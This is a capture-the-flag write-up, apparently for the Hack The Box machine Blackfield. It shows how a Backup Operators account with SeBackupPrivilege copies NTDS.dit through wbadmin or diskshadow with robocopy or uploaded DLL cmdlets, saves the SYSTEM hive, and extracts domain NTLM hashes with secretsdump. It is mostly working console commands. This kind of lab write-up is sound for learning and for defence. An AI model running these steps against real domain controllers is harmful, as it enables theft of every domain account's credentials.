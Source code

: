 
# Elevating Privilege svc_backup -> Administrator

## Enumeration
Looking at the privileges of our user we find **SeBackupPrivilege** & **SeRestoreePrivilege** which are very powerful privileges that allows the user to access directories/files that he doesn’t own or doesn’t have permission to.
> This user right determines which users can bypass file and directory, registry, and other persistent object permissions for the purposes of backing up the system.

```console
*Evil-WinRM* PS C:\Users\svc_backup> whoami /priv 
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
```
The user **svc_backup** is a member of **Backup Operators Groups** and hence has the **Backup privileges** which allows him to backup and restore files on the system, read and write files on the system.

```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> net user svc_backup
User name                    svc_backup
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2020 10:54:48 AM
Password expires             Never
Password changeable          2/24/2020 10:54:48 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/23/2020 11:03:50 AM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```
### Attack Scenario
- Grab a copy of **NTDS.dit** file, a database that stores Active Directory users credentials.
- Next, we will grab **SYSTEM hive** file which contains System boot key essential to decrypt the NTDS.dit
- Using Impacket’s secretsdump script to extract NTLM hashes of all the users in the domain from NTDS.dit

## PrivEsc Method #1 - wbadmin

For the first method, we will use **wbadmin** a Windows command line tool which enables us back up and restore operating system, volumes, files, folders, and applications.

It is not recommended to Backup and Restore the file in the same disk, so first we will first create a shadow copy of disk and backup the **ntds.dit** from the **c:\windows\ntds\ntds.dit** and store it inside SMB share **C$**

We could also achieve this by hosting our own SMB share from our machine but I preferred using SMB share **C$** of the host itself, since we don’t have an interactive session we’ll be using **-quiet** flag which wont ask us for user input to start the backup operation.

### NTDS.dit
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd \\10.10.10.192\C$\Windows\Temp
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.192\C$\Windows\Temp> mkdir CFX
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.192\C$\Windows\Temp\CFX> wbadmin start backup -backuptarget:\\10.10.10.192\C$\Windows\Temp\CFX\ -include:c:\Windows\ntds\ntds
.dit -quiet
```
Now that we have obtained **WindowsImageBackup** of **NTDS.dit** file inside the SMB share, we’ll recovery the file inside our directory **C:\Users\svc_backup\Documents**

For recovering the backup we need the backup version:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> wbadmin get versions
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.

Backup time: 10/5/2020 3:27 PM
Backup location: Network Share labeled \\10.10.10.192\C$\Windows\Temp\CFX\
Version identifier: 10/05/2020-22:27
Can recover: Volume(s), File(s)

*Evil-WinRM* PS C:\Users\svc_backup\Documents> wbadmin start recovery -version:10/05/2020-22:27 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\Users\svc_backup\Documents -notrestoreacl -quiet

*Evil-WinRM* PS C:\Users\svc_backup\Documents> ls


    Directory: C:\Users\svc_backup\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         10/5/2020  3:27 PM       18874368 ntds.dit
```
### SYSTEM hive
To extract the NTLM hashes from ntds.dit file, we’ll be needing SYSTEM hive file which contains the System boot key essential to decrypt the NTDS.dit.

Grabbing **SYSTEM**:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save HKLM\SYSTEM C:\Users\svc_backup\Documents\SYSTEM
```
### Extracting NTLM hashes
We got both the files required to extract NTLM hashes of Domain accounts using Impacket’s secretsdump.py:
```console
┌─[✗]─[kimkhuongduy@drgon]─[~/Documents/hackthebox/Blackfield]
└──╼ $secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

## PrivEsc Method #2 - diskshadow
In second method, the strategy would be the same to grab **NTDS.dit**, but instead we’ll use a different windows tool named **diskshadow**.

> Diskshadow.exe is a tool that exposes the functionality offered by the volume shadow copy Service (VSS). This is a built-in function of Windows that can help us create a copy of a drive that is currently in use. 

First, we will be creating a **Distributed Shell File** or a **dsh** file which will consist of all the commands that are required by the diskshadow to run and create a full copy of our Windows Drive which we then can use to extract the **ntds.dit** file from. In this file, we are instructing the **diskshadow** to create a copy of the **C:** Drive into a **w:** Drive with **mydrive** as its alias. The Drive Alias and Character can be anything you want. After creating this dsh file, we need to use the **unix2dos** to convert the encoding and spacing of the dsh file to the one that is compatible with the Windows Machine.
```console
set context persistent nowriters
add volume c: alias mydrive
create
expose %mydrive% w:
```
In local machine:
```console
┌─[kimkhuongduy@drgon]─[~/Documents/hackthebox/Blackfield]
└──╼ $unix2dos shadow.dsh
```
Then execute the diskshadow and using the script file as its inputs.
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> diskshadow /s shadowscript.dsh
```

Now, to perform the task of copying the data of the NTDS.dit file, there are two ways to do it:
- robocopy
- Copy-FileSeBackupPrivilege

### robocopy

I’ll now copy the file using **robocopy** with **/B** flag to ignore file permissions and use a new directory new_ntds to save the file:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> robocopy /B w:\Windows\ntds .\new_ntds ntds.dit
```
### Copy-FileSeBackupPrivilege
An alternate way to copy files from the shadow drive **w:\** is by uploading **SeBackupPrivilegeUtils.dll** and **SeBackupPrivilegeCmdLets.dll** from [SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug) repo and importing them to our session.
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload SeBackupPrivilegeUtils.dll
```
Importing dll’s:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Import-Module .\SeBackupPrivilegeCmdLets.dll
```
Now we can use **Copy-FileSeBackupPrivilege** to copy files from our Shadow drive to the desired directory:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Copy-FileSeBackupPrivilege w:\Windows\NTDS\ntds.dit C:\Users\svc_backup\Documents\ntds.dit
```
> NOTE: In the case of a DC, the privilege only allows you to make **BACKUPS NOT COPIES**. In a standalone system, we can make copies of the files (SAM and SYSTEM hive). In the case of DC, the method differs as now we need to make backups of the **NTDS.dit** and **SYSTEM** files to extract the password hash of users.
